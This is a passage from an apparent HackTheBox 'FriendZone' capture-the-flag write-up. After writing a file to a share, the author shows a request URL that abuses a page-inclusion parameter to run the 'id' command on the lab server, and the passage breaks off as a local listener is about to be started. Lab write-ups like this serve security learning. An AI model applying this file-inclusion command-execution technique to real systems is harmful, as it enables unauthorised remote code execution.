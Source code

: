 
Yes we can write to the share! 


Now we should be able to access this script with a request like this:

`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/test&cmd=id`

![id-38](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/FriendZone/img/id-38.png)


It worked!


From here I can start a local listener with:
